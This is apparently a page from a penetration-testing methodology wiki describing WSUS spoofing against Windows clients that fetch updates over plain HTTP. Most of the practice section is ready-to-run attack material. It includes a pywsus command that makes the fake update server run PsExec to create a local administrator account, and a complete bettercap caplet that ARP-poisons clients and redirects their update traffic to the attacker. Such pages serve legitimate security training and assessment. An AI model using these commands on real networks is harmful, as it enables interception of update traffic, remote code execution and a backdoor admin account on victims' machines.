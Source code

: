 # WSUS spoofing

## Theory

WSUS (Windows Server Update Services) allow administrators to centralize the management and deployment of Windows updates within their organization network. When first configuring this set of services, the default configuration makes the WSUS use HTTP without any secure layer like SSL/TLS. HTTPS is not enforced by default.

When pulling an update from the WSUS server, clients are redirected to the executable file to download and execute (which can only be a binary signed by Microsoft) and obtain a handler named `CommandLineInstallation` that specifies the additional parameters to pass the binary during the update installation. Without HTTPS, the WSUS is vulnerable to Man-in-the-Middle attacks where adversaries can either pose as the update server and send malicious updates or intercept and modify updates sent to the clients.

## Practice

The following command prints the WSUS server the client requests when searching for an update. If the path looks like `http://wsus.domain.local/`, showing the use of HTTP instead of HTTPS, the attacks can be attempted.

```
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v wuserver
```

The WSUS spoofing attack can be conducted as follows

1. Obtain a Man-in-the-Middle position between clients and the update server with [ARP poisoning](arp-poisoning.md).
2. Redirect traffic from `clients -> legitimate WSUS` to `clients -> attacker's WSUS`
3. Have a custom WSUS server running able to send evil updates to clients

In a scenario where the clients and the attacker are on the same subnet, and the update server is on another one, the steps below can be followed. For other scenarios or more info on ARP poisoning, a recipe exists for it.

{% content-ref url="arp-poisoning.md" %}
[arp-poisoning.md](arp-poisoning.md)
{% endcontent-ref %}

### Preparing the evil WSUS

The evil WSUS server needs to be started before doing any ARP poisoning. The [pywsus ](https://github.com/GoSecure/pywsus)(Python) utility can be used for that matter.

```bash
python3 pywsus.py --host $network_facing_ip --port 8530 --executable /path/to/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser somepassword /add && net localgroup Administrators testuser /add"'
```

Programs other than PsExec.exe can be used here. Using built-in programs features to bypass security restrictions or operate attacks like this is called [Living off the land](../../../infra/privilege-escalation/windows/living-off-the-land.md) (LOL). Other Windows LOL binaries and scripts (a.k.a. LOLbins or LOLbas) can be found on [lolbas-project.github.io](https://lolbas-project.github.io).

### Poisoning and hijacking

Once the WSUS server is up and running, the ARP poisoning attack can start. The best tool to operate ARP poisoning is [bettercap](https://www.bettercap.org/) (Go) and for the majority of the scenarios, basic knowledge of the iptables utility is required.

Packets from the client to the WSUS server need to be hijacked and sent to the attacker's evil WSUS server. In order to do so, the attacker must pose as the client's gateway, route all traffic to the real gateway except the packets destined to the WSUS server.

{% code title="wsus_spoofing.cap" %}
```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the WSUS server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_server_ip
set any.proxy.src_port 8530
set any.proxy.dst_address $attacker_ip
set any.proxy.dst_port 8530

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}

The caplet above can be loaded with the following command in order to launch the ARP poisoning attack.

```bash
bettercap --iface $interface --caplet wsus_spoofing.cap
```

### Triggering Windows update

The search for Windows updates can be manually triggered when having access to the target computer by going to `Settings > Update & Security > Windows Update > Check for updates`.&#x20;

{% hint style="info" %}
By default, the automatic updates interval is 22 hours ([source](https://docs.microsoft.com/en-us/windows/deployment/update/waas-wu-settings)).
{% endhint %}

## Alternative attack

Another way of attacking insecure WSUS without having to rely on ARP poisoning but requiring user access to the target machine is explained in the following blogpost : [WSUS Attacks Part 2: CVE-2020-1013 a Windows 10 Local Privilege Escalation 1-Day](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)

## Resources

{% embed url="https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/" %}
